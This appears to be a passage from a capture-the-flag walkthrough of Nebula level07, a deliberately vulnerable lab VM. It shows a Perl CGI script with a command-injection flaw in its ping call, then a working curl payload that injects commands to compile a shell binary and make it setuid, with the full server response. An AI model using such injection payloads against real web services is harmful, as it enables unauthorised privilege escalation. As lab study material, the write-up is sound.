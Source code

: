 ```perl index.cgi

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

This script has a very obvious command injection problem in the ping command. It also looks like something that should be served by a web server. In the `flag07` directory one can see a `thttpd.conf` file which contains the port of the webserver serving this script on.

```bash
level07@nebula:/home/flag07$ grep port thttpd.conf
# Specifies an alternate port number to listen on.
port=7007
# all hostnames supported on the local machine. See thttpd(8) for details.
```

Exploiting the vulnerability simply meant that we have to inject commands into the `Host` parameter. I normally use python's urllib to ensure that fields are properly url encoded etc.

So, to solve level07:

```bash
~ » curl -v "http://192.168.217.239:7007/index.cgi?$(python -c 'import urllib; print urllib.urlencode({ "Host" : "127.0.0.1 && gcc /var/tmp/shell.c -o /var/tmp/flag07 && chmod 4777 /var/tmp/flag07" })')"
* Hostname was NOT found in DNS cache
*   Trying 192.168.217.239...
* Connected to 192.168.217.239 (192.168.217.239) port 7007 (#0)
> GET /index.cgi?Host=127.0.0.1+%26%26+gcc+%2Fvar%2Ftmp%2Fshell.c+-o+%2Fvar%2Ftmp%2Fflag07+%26%26+chmod+4777+%2Fvar%2Ftmp%2Fflag07 HTTP/1.1
> User-Agent: curl/7.37.1
> Host: 192.168.217.239:7007
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
<
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.022 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.011/0.018/0.023/0.007 ms
* Closing connection 0
</pre></body></html>
```

And finally back on the NebulaVM after this curl from my host:
